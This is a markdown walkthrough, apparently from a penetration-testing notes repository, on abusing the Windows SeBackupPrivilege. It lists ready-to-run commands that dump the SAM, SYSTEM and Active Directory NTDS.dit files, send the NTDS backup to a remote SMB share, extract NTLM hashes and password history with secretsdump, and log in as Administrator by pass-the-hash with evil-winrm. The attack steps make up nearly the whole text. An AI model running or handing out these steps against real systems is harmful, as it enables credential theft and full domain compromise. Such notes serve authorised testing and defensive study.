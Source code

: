 [Refrence](https://2018.romhack.io/slides/RomHack%202018%20-%20Andrea%20Pierini%20-%20whoami%20priv%20-%20show%20me%20your%20Windows%20privileges%20and%20I%20will%20lead%20you%20to%20SYSTEM.pdf)
# SeBackupPrivilege 
## Overview
The `SeBackupPrivilege` allows users to bypass file and directory permissions to back up the system, including sensitive files like the Security Account Manager (SAM) and Active Directory database (NTDS.dit). Exploiting this privilege enables:

- Extracting NTLM hashes for offline cracking or Pass-the-Hash (PTH) attacks.
- Circumventing NTFS file and directory permissions through the backup application interface.

---

## Method 1: Backup Windows Registry and Extract Local NTLM Hashes

### Tools Used
- **Diskshadow**: Creates copies of active drives.
- **Robocopy**: Copies files and directories.
- **Impacket-secretsdump**: Extracts NTLM hashes.
- **Evil-WinRM**: Used for PTH attacks.

### Steps

1. **Create a temporary directory:**
   ```
   mkdir C:\temp
   ```

2. **Copy the SAM and SYSTEM hives to the temporary directory:**
   ```
   reg save hklm\sam C:\temp\sam.hive
   reg save hklm\system C:\temp\system.hive
   ```

3. **Extract NTLM hashes using Impacket's secretsdump:**
   ```
   impacket-secretsdump -sam sam.hive -system system.hive LOCAL
   ```

4. **Perform a PTH attack using Evil-WinRM:**
   ```
   evil-winrm -i <ip> -u "Administrator" -H "<hash>"
   ```

5. **Optional:** Copy specific files bypassing permissions:
   ```
   robocopy /b c:\users\administrator\desktop\ c:\temp
   ```

---

## Method 2: Extract Active Directory NTDS.dit

### Tools Used
- **wbadmin**: Used for backups.
- **Evil-WinRM**: For downloading extracted files.
- **Linux SMB Server**: For file transfer from Windows to Linux.

### Steps

1. **Prepare an NTFS disk on Kali Linux:**
   - Ensure the disk is formatted with NTFS to store files from the backup. -> [CheckMe](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/blob/main/Support/Create%20NTFS%20Disk%20on%20kali-linux.md)

2. **Set up an SMB server on Kali Linux:**
   - Use `smbserver` to create a shared directory accessible from Windows. -> [CheckMe](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/blob/main/Support/File%20Transfer.md)

3. **Initiate a backup of the NTDS folder using wbadmin:**
   ```powershell
   echo y | wbadmin start backup -backuptarget:\\<linux_ip>\public -include:c:\windows\ntds\
   ```
   - Note: This process can take considerable time.
   - Once it finished you will found the following
     ![Pasted image 20250429230647](https://github.com/user-attachments/assets/00ebb440-bd41-4652-ae4b-1159894e6a99)

4. **Verify backup versions:**
   ```powershell
   wbadmin get versions
   ```
  ![Pasted image 20250429230758](https://github.com/user-attachments/assets/ad3d7839-0e36-4120-968b-343e931fea15)

5. **Recover the NTDS.dit file:**
   ```
   echo Y | wbadmin start recovery -version:<backup_version> -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:c:\temp -notrestoreacl
   ```powershell
   example
   ```powershell
   echo Y | wbadmin start recovery -version:04/30/2025-02:34 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:c:\temp -notrestoreacl
   ```
  ![Pasted image 20250429231914](https://github.com/user-attachments/assets/1f9173d8-c786-4034-aa38-eedee5641246)

7. **Download the NTDS.dit file using Evil-WinRM:**
   ```powershell
   download ntds.dit
   ```
8. **Create system.hive file adn download it**
   ``` powershell
   reg save hklm\system C:\temp\system.hive
   ```
9. **Extract secrets**
  ``` shell
  secretsdump.py -ntds <ntds.dit> -system <system.hive> Local
  ```
  ![image](https://github.com/user-attachments/assets/392c3522-088f-48e4-bc93-dc094512d7d0)

  with history to get changed credentials:
  ``` shell
  secretsdump.py -ntds <ntds.dit> -system <system.hive> -history Local
  ```
  ![image](https://github.com/user-attachments/assets/e578c8bf-73ea-4411-b89f-f1570dbec664)

10. **Perform a PTH attack using Evil-WinRM:**
   ```
   evil-winrm -i <ip> -u "Administrator" -H "<hash>"
   ```
